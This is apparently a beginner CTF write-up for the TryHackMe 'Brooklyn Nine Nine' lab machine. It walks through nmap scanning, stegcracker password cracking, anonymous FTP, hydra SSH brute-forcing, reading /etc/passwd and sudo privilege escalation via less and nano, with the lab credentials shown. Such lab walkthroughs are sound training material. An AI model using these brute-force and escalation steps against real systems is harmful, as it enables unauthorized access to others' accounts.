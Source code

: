 ```yaml
---
title: "TryHackMe: Brooklyn Nine Nine Walkthrough WriteUp"
layout: default
published: true
---
```


This is Brooklyn Nine Nine themed CTF, basically for begineers. Let's jump into it and check out this machine.
<br><br>
Scanning the machine using NMAP, yields out 3 open ports and getting the detailed version using `nmap -sC -sV -p21,22,80 -vv -oN nmap-detailed IP` 

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.1.58
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
There are lots of juicy information about it, an Apache web-server(80), Anonymous FTP and SSH.
<br><br>
Let's go through each ports one by one.

#### PORT 80 - WEBSERVER
Greeted with a B99 banner! Noice! <br>
Looking at the source code, we find out the image name and download the image using `wget http://IP/brooklyn99.jpg`. There are abundance of hints, like `Have you ever heard of steganography?` :laughing:


So we shall, use `stegcracker` to get the hidden data from the image,
```
$ stegcracker brooklyn99.jpg ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/home/cardinal/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt'..
Successfully cracked file with password: admin
Tried 1588 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

And we have set of credentials, that looks like could be used by SSH,
```
$ cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
````

#### PORT 21 - Anonymous FTP

Using the Anonymous FTP credentails, `anonymous` as username and password! We get a `note_to_jake.txt` from FTP server. And it contains a sweet text from Amy,
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

#### PORT 22 - SSH

Let's try and get into SSH using the credentials `holt` as username and `fluffydog12@ninenine` as password!

We got two files in the default directory and one of them is `user.txt` and `nano.save` but it can be accessed by root, hence we have the user's flag! Let's enumerate more, so getting the `/etc/passwd` gives us that we have two more potential account - `jake` & `amy`. 

Let's try and get into jake's account using bruteforce, for bruteforce we could use `hydra`.

```
$ hydra -l jake -P ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://IP
[22][ssh] host: IP   login: jake   password: 987654321
```
<br><br>
And we have jake's password!!!! Let's meet jake then!!!!
<br>
After getting into jake's machine and we see it's sudo privileges by `sudo -l` and we can see that jake has sudo privileges for `less`, and using it we can access the `root.txt` from root user.

```
$ less root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: xxxxxxxxxxxxxxxxxxxxxxxxxx

Enjoy!!
```

And we have pwned the box!!!
<hr>

_Other Method - When we do, `sudo -l` in holt's account, we find out that we have sudo privileges for `nano`. And we could escalate using `nano` as well._
